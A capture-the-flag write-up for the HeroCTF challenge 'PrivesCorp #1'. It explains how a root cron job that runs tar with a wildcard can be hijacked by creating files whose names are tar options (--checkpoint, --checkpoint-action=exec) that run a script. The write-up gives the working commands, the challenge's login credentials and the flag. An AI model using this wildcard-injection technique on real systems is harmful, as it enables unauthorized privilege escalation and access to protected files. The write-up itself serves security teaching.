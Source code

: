 # PrivesCorp #1: Probabtion

### Category

System

### Description

You're on probabtion at this new firm, PrivesCorp. You have to give your superiors a report on the finanial situation of the company. But a not so kind colleague locked the file... You have to prove yourself, and therefore handle it on your own. Get the content of the file.

Read `/home/bob/locked.txt`

```shell
$ ssh bob@chall0.heroctf.fr -p 5001
password : password123
```

Format : **Hero{flag}**<br>
Author : **Log_s**

### Write up

The **note.txt** file teaches us that a new state of the art backup system as been configured to make a backup of our *entire* home directory every minute.

We can easely imagine what is going on : a cron job is running with the following command : ```tar /var/backups/backup.tar *```

Now how is the use of the **\*** wildcard dangerous ? Tar allows you to set *checkpoints*. There are commands to execute after x files where archived. You can inject checkpoints through the wildcard with specific file names.

First let's create the checkpoint to run after one file was archived : ```touch -- --checkpoint=1```

Next, let's set tar's behaviour when reaching the checkpoints : ```touch -- "--checkpoint-action=exec=sh privesc.sh"```

Finally let's create the script that should be executed : ```echo 'cp /home/bob/locked.txt /tmp/abcd.txt && chmod 777 /tmp/abcd.txt' > privesc.sh```

We could have added ourselfs to the sudoers file, we could have ran a reverse shell as root, but I kept it simple here by copying **locked.txt** to a file we could read.

Now you just have to wait up to 1min that the cronjob archives the home directory in which you put the malicious files ;)

### Flag

```Hero{h0w_l0ng_t1ll_p4yd4y}```
